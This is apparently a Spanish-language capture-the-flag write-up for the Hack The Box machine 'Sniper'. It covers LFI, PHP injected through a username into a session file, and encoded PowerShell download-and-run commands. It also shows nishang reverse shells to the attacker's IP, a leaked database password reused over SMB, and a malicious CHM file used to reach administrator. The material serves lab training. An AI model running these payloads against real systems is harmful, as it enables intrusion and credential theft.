

Hack The Box: Sniper Writeup
Welcome to my detailed writeup of the medium difficulty machine “Sniper” on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.
TCP Enumeration
1rustscan -a 10.129.229.6 --ulimit 5000 -g
210.129.229.6 -> [80,135,139,445,49667] 1nmap -p80,135,139,445,49667 -sCV 10.129.229.6 -oN allPorts
2Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-23 22:30 CEST
3Nmap scan report for 10.129.229.6
4Host is up (0.041s latency).
5
6PORT STATE SERVICE VERSION
780/tcp open http Microsoft IIS httpd 10.0
8|_http-title: Sniper Co.
9|_http-server-header: Microsoft-IIS/10.0
10| http-methods:
11|_ Potentially risky methods: TRACE
12135/tcp open msrpc Microsoft Windows RPC
13139/tcp open netbios-ssn Microsoft Windows netbios-ssn
14445/tcp open microsoft-ds?
1549667/tcp open msrpc Microsoft Windows RPC
16Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
17
18Host script results:
19|_clock-skew: 5h00m02s
20| smb2-security-mode:
21| 3:1:1:
22|_ Message signing enabled but not required
23| smb2-time:
24| date: 2024-08-24T01:31:47
25|_ start_date: N/A
26
27Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
28Nmap done: 1 IP address (1 host up) scanned in 95.63 secondsUDP Enumeration
1sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.229.6 -oN allPorts.UDP
2Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-23 22:32 CEST
3Nmap scan report for 10.129.229.6
4Host is up.
5All 1500 scanned ports on 10.129.229.6 are in ignored states.
6Not shown: 1500 open|filtered udp ports (no-response)
7
8Nmap done: 1 IP address (1 host up) scanned in 2.41 secondsNo podemos listar contenido mediante una null session en el SMB
1smbclient -L \\10.129.229.6 -N -U 'null'
2session setup failed: NT_STATUS_LOGON_FAILUREHTTP Enumeration
Así se ve el sitio web.

Vemos un panel de autenticación

Al iniciar sesión…
Parece que no está construido el portal del usuario pero la sesión está iniciada.


Vemos también un blog.

Local File Inclusion
Vemos también algo raro, podemos cambiar de idioma pero parece que se apunta a un archivo PHP en el sistema a través del parámetro lang
Después de probar algunos payloads de LFI para Windows, encontré que el servidor respondía al siguiente recurso del sistema.


Podemos intentar cargar un recurso remoto de nuestra máquina de atacante pero no funciona.

Me encontré la siguiente publicación en la que te dice la ruta donde se guardan los archivos asociados a una sesión en PHP pero en Linux.
Como PHP funciona igual en Windows significa que debe de almacenarse estos datos de sesión en alguna parte del sistema.
Con una simple búsqueda en Google encontré este post en StackOverFlow

Y parece que hemos dado con el archivo.

Y se refleja la siguiente información.
Podemos intentar crearnos un usuario en el sistema con un nombre de usuario malicioso para intentar inyectar código PHP.
Después de intentar crear una cuenta como el usuario <?php phpinfo(); ?> me reportaba todo el rato que el usuario era inválido.
Sin embargo si que podía crear un usuario como que es una forma válida para ejecutar comandos en PHP.
1<?=`powershell whoami`?>
Y podemos comprobar que el comando se ejecuta en el sistema. 
Intentando utilizar el típico oneliner powershell de RevShells.com

Foothold
Por lo cual tiene que haber algún carácter que considera malicioso y en este caso debe de ser -
Después de probar un rato intentando forjar mi propio oneliner me encontré con este post que explica una cosa importante a la hora de generar el base64. https://nvd.codes/post/correctly-encode-powershell-payloads-for-exploits/
PowerShell is built with dotnet, which means that strings should be Unicode encoded. Unicode in Windows-lingo means little-endian UTF-16. But when encoding the output of echo in Linux we basically have a UTF-8 encoded string. To fix this we can use iconv to convert to UTF-16LE:
Y es que el encoding de PoweShell as estar construida en .NET es UTF-16LE y no UTF-8
Podemos ver que el payload es distinto

Haciendo una prueba en local vemos que ahora si que recibimos algo…
Ahora falta una manera para poder crear un usuario utilizando como nombre de usuario nuestro payload…
También detecté que probablemente haya una restricción en la longitud del nombre de usuario.
Así que después de un rato creé un usuario con este nombre y después ejecuté el código inyectado en el usuario a través del LFI encontrado.
1echo 'wget "10.10.14.50:8081/r.ps1" -OutFile "C:\Windows\Temp\r.ps1"' | iconv -t UTF-16LE | base64 -w 0
2dwBnAGUAdAAgACIAMQAwAC4AMQAwAC4AMQA0AC4ANQAwADoAOAAwADgAMQAvAHIALgBwAHMAMQAiACAALQBPAHUAdABGAGkAbABlACAAIgBDADoAXABXAGkAbgBkAG8AdwBzAFwAVABlAG0AcABcAHIALgBwAHMAMQAiAAoANo olvidar agregar el <?=`powershell /enc PAYLOAD`?> al nombre de usuario
1python3 -m http.server 8081
2Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
310.129.229.6 - - [23/Aug/2024 23:34:28] "GET /r.ps1 HTTP/1.1" 200 -Este script es el típico Invoke-PowerShellTcp.ps1 de nishang pero agregando esta línea al final del script.
1Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.50 -Port 443Ahora solo falta ejecutar el script descargado…
1echo 'powershell C:\Windows\Temp\r.ps1' | iconv -t UTF-16LE | base64 -w 0
2cABvAHcAZQByAHMAaABlAGwAbAAgAEMAOgBcAFcAaQBuAGQAbwB3AHMAXABUAGUAbQBwAFwAcgAuAHAAcwAxAAoA1sudo rlwrap -cEr nc -lvnp 443
2listening on [any] 443 ...
3connect to [10.10.14.50] from (UNKNOWN) [10.129.229.6] 49806
4Windows PowerShell running as user SNIPER$ on SNIPER
5Copyright (C) 2015 Microsoft Corporation. All rights reserved.
6
7PS C:\inetpub\wwwroot\blog>
8PS C:\inetpub\wwwroot\blog> whoami
9nt authority\iusrUser Pivoting
Vemos que hemos ganado acceso como nt authority\iusr , detectamos un usuario a nivel de sistema llamado Chris

En el archivo C:\inetpub\wwwroot\user\db.php encontramos unas credenciales para la base de datos.
1PS C:\inetpub\wwwroot\user> type db.php
2<?php
3// Enter your Host, username, password, database below.
4// I left password empty because i do not set password on localhost.
5$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
6// Check connection
7if (mysqli_connect_errno())
8 {
9 echo "Failed to connect to MySQL: " . mysqli_connect_error();
10 }
11?>Como está el SMB abierto con netexec podemos comprobar que estas credenciales son válidas
1nxc smb 10.129.229.6 -u Chris -p '36mEAhz/B8xQ~2VM'
2SMB 10.129.229.6 445 SNIPER [*] Windows 10 / Server 2019 Build 17763 x64 (name:SNIPER) (domain:Sniper) (signing:False) (SMBv1:False)
3SMB 10.129.229.6 445 SNIPER [+] Sniper\Chris:36mEAhz/B8xQ~2VMPara migrar a este usuario podemos subirnos el binario de RunasCs.exe y mandarnos una revshell.
1.\RunasCs.exe Chris "36mEAhz/B8xQ~2VM" cmd.exe -r 10.10.14.50:443
2
3[+] Running in session 0 with process function CreateProcessWithTokenW()
4[+] Using Station\Desktop: Service-0x0-3e3$\Default
5[+] Async process 'C:\Windows\system32\cmd.exe' with pid 5328 created in background.1sudo rlwrap -cEr nc -lvnp 443
2listening on [any] 443 ...
3connect to [10.10.14.50] from (UNKNOWN) [10.129.229.6] 49808
4Microsoft Windows [Version 10.0.17763.678]
5(c) 2018 Microsoft Corporation. All rights reserved.
6
7C:\Windows\system32>whoami
8whoami
9sniper\chrisY podemos leer la flag de usuario
1C:\Users\Chris\Desktop>type user.txt
2type user.txt
36ca87a0f671c798c...Privilege Escalation
En el directorio de descargas de este usuario encontramos lo siguiente.

Un archivo CHM (Compiled HTML Help) es un formato de archivo de ayuda desarrollado por Microsoft, comúnmente utilizado para la documentación de software. Estos archivos están diseñados para almacenar documentación en un formato compacto y de fácil acceso. Los archivos CHM fueron especialmente populares en la era de Windows 98 y continuaron siendo ampliamente usados en versiones posteriores de Windows.
En la raíz del sistema detectamos un directorio un tanto extraño llamado Docs

Vemos una nota que dicta lo siguiente
C:\Docs>type note.txt
type note.txt
Hi Chris,
Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.
Regards,
Sniper CEO.El CEO está esperando la documentación del sistema y supongo que esperará un archivo CHM, podríamos crear un CHM.
Me encontré el siguiente post sobre como conseguir ejecución de comandos a través de un archivo CHM malicioso y resulta que nishang tiene un script para crear un CHM malicioso.
https://medium.com/r3d-buck3t/weaponize-chm-files-with-powershell-nishang-c98b93f79f1e
También debemos instalar HTML Help Workshop que sirve para compilar el archivo CHM, el problema es que este archivo está eliminado a día de hoy de la documentación oficial de Windows 10.
Podemos utilizar WaybackMachine para descargar el instalador
Una vez instalado podemos crear nuestro CHM malicioso…

Nos copiamos el binario de nc.exe y el archivo doc.chm en la máquina víctima
1C:\Users\Chris\Desktop>dir
2dir
3 Volume in drive C has no label.
4 Volume Serial Number is AE98-73A8
5
6 Directory of C:\Users\Chris\Desktop
7
808/23/2024 08:03 PM <DIR> .
908/23/2024 08:03 PM <DIR> ..
1008/23/2024 08:01 PM 13,448 d573913120ef8d81e901bd7b3ae2701760008cb2.key
1108/23/2024 08:01 PM 13,448 doc.chm
1208/23/2024 08:03 PM 28,160 nc.exe
1308/23/2024 06:27 PM 34 user.txt
14 4 File(s) 55,090 bytes
15 2 Dir(s) 2,414,661,632 bytes freeCopiamos el nc.exe a la ruta que hemos especificado en el payload al generar el archivo CHM
1C:\Users\Chris\Desktop>copy nc.exe C:\Windows\System32\spool\drivers\color\nc.exe
2copy nc.exe C:\Windows\System32\spool\drivers\color\nc.exe
3 1 file(s) copied.Y copiamos el archivo CHM malicioso al directorio donde estaba la nota…
1C:\Users\Chris\Desktop>copy doc.chm C:\Docs\doc.chm
2copy doc.chm C:\Docs\doc.chm
3 1 file(s) copied.Y si nos ponemos en escucha con netcat
1sudo rlwrap -cEr nc -lvnp 443
2listening on [any] 443 ...
3connect to [10.10.14.50] from (UNKNOWN) [10.129.229.6] 49818
4Windows PowerShell
5Copyright (C) Microsoft Corporation. All rights reserved.
6
7PS C:\Windows\system32> whoami
8whoami
9sniper\administratorPodemos leer la flag de root
1PS C:\Users\Administrator\Desktop> type root.txt
2type root.txt
3b7b8de1f25db0cb...¡Y ya estaría!
Happy Hacking! 🚀
#HackTheBox #Sniper #Writeup #Cybersecurity #Penetration Testing #CTF #Reverse Shell #Privilege Escalation #RCE #Exploit #Windows #Local File Inclusion #Abusing PHP Session Temp Files #Bypassing #Information Leakage #User Pivoting #Weaponizing CHM File